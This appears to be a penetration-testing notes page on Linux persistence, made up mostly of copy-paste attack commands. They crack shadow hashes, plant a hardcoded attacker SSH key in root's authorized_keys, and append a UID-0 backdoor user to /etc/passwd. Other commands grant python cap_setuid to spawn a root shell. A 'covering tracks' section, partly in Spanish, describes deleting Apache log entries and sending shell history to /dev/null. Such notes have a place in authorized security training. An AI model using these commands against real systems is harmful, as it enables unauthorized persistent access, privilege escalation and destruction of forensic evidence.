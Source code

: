 # Persistence

{% embed url="https://github.com/huntergregal/mimipenguin" %}

{% embed url="https://hackmag.com/security/linux-killchain/" %}

## Crack shadow hash

```bash
# HASHCAT 
hashcat.exe -m 1800 -a 0 -o cracked.txt hash.txt rockyou.txt // sha512
-----
# SOMETIMES IT'S NECESSARY --format=sha512crypt
john $HASH_FILE --wordlist=$WORDLIST --format=$HASH_FORMAT
unshadow passwd shadow > crack.txt
john crack.txt
john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
```

## SSH Authorized Keys

We can create or append more keys to **authorized\_keys**, by writing our public key to `~/.ssh/authorized_keys` to obtain persistent SSH access.&#x20;

If a user's public key is authorized, we can log in as that user directly (ssh user@localhost)&#x20;

{% code overflow="wrap" %}
```shell
https://pentestmonkey.net/cheat-sheet/ssh-cheat-sheet
https://medium.com/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54

# Ed25519 - generate our SSH key pair with a strong passphrase
ssh-keygen -o -a 100 -t ed25519 -f ~/.ssh/id_ed25519 -C "kali@localhost" 
# Copy public key, rename it as authorized_keys and upload it to the target so we can authenticate it
cp ~/.ssh/id_ed25519.pub authorized_keys
# Very important to set these permissions on the target
chmod 700 .ssh/
chmod 600 authorized_keys

# Generate private key to log in via SSH 
ssh-keygen -f /root/.ssh/id_rsa -P ""
cp /root/.ssh/id_rsa.pub /root/.ssh/authorized_keys 
cat /root/.ssh/id_rsa

# Input our public key to authorized_keys
cd /home/user && mkdir .ssh 
echo -n 'ssh-rsa AAAAB3NzaC1yc2E<SNIP>' > .ssh/authorized_keys

mkdir /root/.ssh 2>/dev/null; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali' >> /root/.ssh/authorized_keys
```
{% endcode %}

## Backdoor user - passwd

{% code overflow="wrap" %}
```bash
$ openssl passwd hola1234
D2JSqaxOMVCkY
$ echo 'hacker:D2JSqaxOMVCkY:0:0:root:/root:/bin/bash' >> /etc/passwd

# When hashed salted password is needed
$ openssl passwd -6 -salt hacker hola1234 # hacker is the salt and hola1234 the password
$6$hacker$Tz9Wzszl4b1ovGPzZO4uKDpw1tSKz2j5aZPaDhevpr3qDFmGPYYWxp0F8A2r80/1lrZ7zGbyh7uFvAOgPQcBx.
```
{% endcode %}

## SSH Backdoor

[https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)

## Capabilities

| [https://man7.org/linux/man-pages/man7/capabilities.7.html](https://man7.org/linux/man-pages/man7/capabilities.7.html)                                                                                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| [https://www.incibe-cert.es/blog/linux-capabilities](https://www.incibe-cert.es/blog/linux-capabilities)                                                                                                                 |
| [https://gtfobins.github.io/#+capabilities](https://gtfobins.github.io/#+capabilities)                                                                                                                                   |
| [https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc) |

```bash
# For example, once we are root we can set a capability for Python3.5
whereis python
setcap cap_setuid+ep /usr/bin/python3.5
# We can check it's properly set with setcap.
# After this, we can spawn a shell from a non-privileged account:
/usr/bin/python3.5 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# visit GTFOBins and check capabilities
```

## **Covering our tracks**

The final stages of penetration testing involve setting up persistence and covering our tracks.&#x20;

During a pentesting engagement, you will want to try to avoid detection from the administrators & engineers of your client wherever within the permitted scope of the pentesting engagement. Activities such as logging in, authentication and uploading/downloading files are logged by services and the system itself.

On Debian and Ubuntu, the majority of these are left within the "/var/log directory and often require administrative privileges to read and modify. Some log files of interest:

* "/var/log/auth.log" (Attempted logins for SSH, changes too or logging in as system users:)

![](<../../.gitbook/assets/image (66).png>)

* "/var/log/syslog" (System events such as firewall alerts:)

![](<../../.gitbook/assets/image (35).png>)

* "/var/log/\<service/"
* For example, the access logs of apache2
  * /var/log/apache2/access.log"

![](<../../.gitbook/assets/image (68).png>)

Si han sido consultas HTTP en su mayoría, una vez siendo root tal vez habría aprovechado para borrar las últimas entradas del **/var/log/apache2/access.log** (en caso de que sea Apache, por ejemplo), habría inspeccionado bien los exploits para ver qué tipo de ficheros temporales alojan sobre el sistema, para también borrarlos, habría borrado las últimas líneas del histórico de comandos del usuario root, o hecho un **'ln -s -f /dev/null .zsh\_history'** para aprovechar y no tener que preocuparme de futuros movimientos, y tal vez habría investigado un poco a fondo sobre qué logs aloja Drupal a nivel de sistema para borrar las últimas entradas. Lo que respecta a temas de conexiones TCP, para evitar dejar rastros y que figure mi dirección IP, suelo tirar de un recurso que compartí hace poco por GitHub: [https://github.com/s4vitar/ttyoverhttp](https://www.youtube.com/redirect?event=comments\&redir_token=QUFFLUhqblRpYXIwWlR1VzZ1N1FRczNuLTlwU2l4TXNJQXxBQ3Jtc0trdkRZS0FEY1FsSm1sSm1lODFQVVlzOXZYaEQ1T252X2lGaUhBd2doMWlpdmZiRktvdU5PeU8tZXJ2dDBtaVlWMUFraF9YWXhBX3FaWmxVR2FiZ21sV1NCaUNwS3FXRV9NZnZmSGlHZ1p4Si1Gc1I4Zw\&q=https%3A%2F%2Fgithub.com%2Fs4vitar%2Fttyoverhttp\&stanza_id=Ugy8uNpc2P2HldD4uY54AaABAg.93Sz-woSTrA93T-hZi-0-Z), donde básicamente gestionamos mediante el uso de una "webshell", una TTY completamente interactiva haciendo uso de la utilidad mkfifo para no tener que tirar de Reverse Shells. La consola sería completamente funcional y con capacidad de modo interactivo (mysql, migración de usuarios, etc.), no teniendo que especificar jamás tu dirección IP (figuraría por ejemplo a nivel de logs de apache por tus consultas pero a nivel de netstat no habría ningún Socket establecido).
